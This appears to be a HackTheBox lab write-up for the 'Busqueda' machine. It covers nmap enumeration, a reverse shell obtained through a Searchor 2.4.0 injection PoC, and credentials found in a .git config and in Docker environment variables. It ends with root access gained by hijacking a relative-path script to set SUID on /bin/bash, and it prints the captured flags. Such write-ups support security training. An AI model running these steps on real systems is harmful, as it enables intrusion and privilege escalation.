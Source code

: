 ```yaml
---
title: "Busqueda"
date: 2025-06-07
categories:
  - HackTheBox
  - Linux
tags:
  - HackTheBox
  - Linux
---
```


# Busqueda

![](../assets/Pasted%20image%2020250607172201.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.11.208
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-07 17:27 CEST
Nmap scan report for 10.10.11.208
Host is up (0.041s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   40.61 ms 10.10.14.1
2   40.83 ms 10.10.11.208

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.88 seconds
```

Add `searcher.htb` to `/etc/hosts`.

The site is a Flask project using `searchor` `2.4.0`.

![](../assets/Pasted%20image%2020250608160323.png)

Searching a little, we find a POC.

[https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-](https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-)

## Initial Access

So, capture the request with Caido and edit the `search` param.

![](../assets/Pasted%20image%2020250608161312.png)

```shell
$ rlwrap nc -lnvp 7777                        
listening on [any] 7777 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.208] 42334
/bin/sh: 0: can't access tty; job control turned off
$ whoami
svc
```

Get the flag

```shell
$ cat user.txt
0d5be9ebe2b24d31d36913f7abe06b8a
```

## Privilege Escalation

Inside the app project's folder there is a `.git` folder, the config file has the `svc` password.

![](../assets/Pasted%20image%2020250607180554.png)

Re-enter via SSH for an easier shell.

```shell
$ ssh svc@10.10.11.208

Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-69-generic x86_64)

...
The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Apr  4 17:02:09 2023 from 10.10.14.19
```

With `sudo -l`:

```shell
svc@busqueda:/opt/scripts$ sudo -l
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

```shell
svc@busqueda:/opt/scripts$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' 960873171e2e | jq .
```

```shell
"Env": [
      "USER_UID=115",
      "USER_GID=121",
      "GITEA__database__DB_TYPE=mysql",
      "GITEA__database__HOST=db:3306",
      "GITEA__database__NAME=gitea",
      "GITEA__database__USER=gitea",
      "GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh",
      "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
      "USER=git",
      "GITEA_CUSTOM=/data/gitea"
    ],
```

```shell
"Env": [
      "MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF",
      "MYSQL_USER=gitea",
      "MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh",
      "MYSQL_DATABASE=gitea",
      "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
      "GOSU_VERSION=1.14",
      "MYSQL_MAJOR=8.0",
      "MYSQL_VERSION=8.0.31-1.el8",
      "MYSQL_SHELL_VERSION=8.0.31-1.el8"
    ],
```

We can try these admin credentials on Gitea.

![](../assets/Pasted%20image%2020250608181134.png)

Looking at the code for `system-checkup.py` we can notice that `full-checkup.sh` is being called without an absolute path.

![](../assets/Pasted%20image%2020250608181826.png)

```shell
svc@busqueda:/tmp$ echo -e '#!/bin/bash\nchmod u+s /bin/bash' > full-checkup.sh && chmod +x full-checkup.sh
svc@busqueda:/tmp$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

[+] Done!
svc@busqueda:/tmp$ bash -p
bash-5.1# whoami
root
```

## Post Exploitation

Get the flag

```shell
bash-5.1# cat /root/root.txt
59784d838c55bf5fe8089b49bac638d6
```
